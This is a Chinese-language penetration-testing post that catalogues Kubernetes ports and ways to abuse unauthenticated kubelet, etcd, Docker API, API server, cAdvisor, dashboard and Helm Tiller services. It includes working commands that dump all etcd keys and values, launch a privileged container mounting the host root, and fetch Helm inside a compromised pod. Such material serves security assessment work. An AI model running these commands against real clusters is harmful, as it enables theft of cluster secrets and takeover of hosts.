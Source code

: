 ```yaml
---
title: K8S攻击面梳理
author: 404tk
date: 2021-10-24
category: Kubernetes
layout: post
---
```


如何识别K8S
-------------

通过一些常见的开放服务端口，可以判断是否跑了K8S服务，端口列表如下：

#### Control-plane Node(s)

|    Port    |      Purpose       |            Note            |
| :--------: | :----------------: | :------------------------: |
|  443/TCP   |  Kube API Server   |    Kubernetes API Port     |
|  6443/TCP  |  Kube API Server   |    Kubernetes API Port     |
|  8443/TCP  |  Kube API Server   |     Minikube API Port      |
|  8080/TCP  |  Kube API Server   |   Insecure K8s API Port    |
|  2379/TCP  | etcd Client Server |        etcd Storage        |
|  2380/TCP  | etcd Client Server |        etcd Storage        |
|  6666/TCP  | etcd Client Server |        etcd Storage        |
|  4194/TCP  |      cAdvisor      |     Container Matrics      |
| 10250/TCP  |    Kubelet API     |                            |
| 10251/TCP  |   Kube-scheduler   |                            |
| 10252/TCP  | controller-manager |                            |
|  9099/TCP  |    Calico-felix    | Health check Calico server |
| 6782-4/TCP |       Weave        |   Metrics and endpoints    |

#### Worker Node(s)

|      Port       |     Purpose      | Note |
| :-------------: | :--------------: | :--: |
|      10250      |   Kubelet API    |      |
| 30000-32767/TCP | NodePort Service |      |

外部视角如何攻击K8S
-------------

#### Kubelet未授权
`10250/tcp - kubelet (kubelet exploit)` 
验证未授权，可以尝试访问以下路径：
```
/pods
/runningpods
/containerLogs
```

其次是默认10255端口，只读权限：
`10255/tcp - kubelet port (read-only)`
尝试通过以下路径获取信息：
```
/stats
/metrics
/pods
```

#### etcd未授权
`2379/tcp - etcd (see it on other ports though)`  
可通过以下路径判断未授权：
```
/version
/v2/keys
```
Etcd存放了大量敏感配置信息，从 [https://github.com/etcd-io/etcd/releases/](https://github.com/etcd-io/etcd/releases/) 下载得到`etcdctl`。
```
ETCDCTL_API=3 ./etcdctl --endpoints=http://IP:2379/ get / --prefix --keys-only | sort | uniq | xargs -I{} sh -c 'ETCDCTL_API=3 ./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=http://IP:2379 get {} >> output.data && echo "" >> output.data'
```

#### Docker Remote API未授权
`2375/tcp docker`
通过访问`/info`路径查看响应中是否含有关键词:`"kind": "APIResourceList"`。
```
docker -H tcp://IP:2375 ps
docker -H tcp://IP:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

#### Docker Registry v2 API未授权
`8080/tcp Docker Registry (API: 2.0)`
可通过访问`/v2/_catalog`路径判断未授权。  

#### Kubernetes API Server未授权
`443/6443 - Kube API Server`  
通过访问`/api/v1`路径查看响应中是否含有`ContainersRunning`、`DockerRootDir`等关键词。
```
/api
/api/v1
/apis
/apis/
/apis/apps
/apis/apps/v1
/apis/autoscaling
/apis/autoscaling/v1
/apis/batch
/apis/batch/v1
...
```

#### cAdvisor未授权
`4194/tcp - cAdvisor`
尝试访问`/api/v2.0/spec?recursive=true`以JSON格式输出在主机上运行的所有容器的规范。

#### 攻击dashboard
`30000 - dashboard`
默认情况下, dashboard是需要进行鉴权操作的,当用户开启了`enable-skip-login`时可以在登录界面点击`Skip`跳过登录进入dashboard。

如何利用正在运行的Pod
-------------

获取`shell`后，很容易确认这是个在`Kubernetes`上运行的容器：
```
ls -l /.dockerenv
env | grep -i kube
```

#### 攻击Helm
`44134/tcp - Helmtiller, weave, calico`  
`Helm`与`Kubernetes`集群通信的方式是通过`gRPC`到`Tiller-deploy pod`。
然后 pod 使用其服务帐户令牌与 Kubernetes API 对话。
当Helm从客户端运行命令时，在后台会打开一个端口转发到集群中以直接与`Tiller-deploy`服务对话，该服务始终指向`44134/TCP`上的`Tiller-deploy pod`。
```
export HVER=v2.11.0
curl -L "https://storage.googleapis.com/kubernetes-helm/helm-${HVER}-linux-amd64.tar.gz" | tar xz --strip-components=1 -C /tmp linux-amd64/helm
/tmp/helm --host tiller-deploy.kube-system.svc.cluster.local:44134 ls
```

K8S安全评估工具
-------------

+ [kube-hunter](https://github.com/aquasecurity/kube-hunter)
+ [kubeletctl](https://github.com/cyberark/kubeletctl)
+ [kubestriker](https://github.com/vchinnipilli/kubestriker)
+ [KubiScan](https://github.com/cyberark/KubiScan)
+ [kube-unauth-exec-hunter](https://github.com/cedowens/kube-unauth-exec-hunter)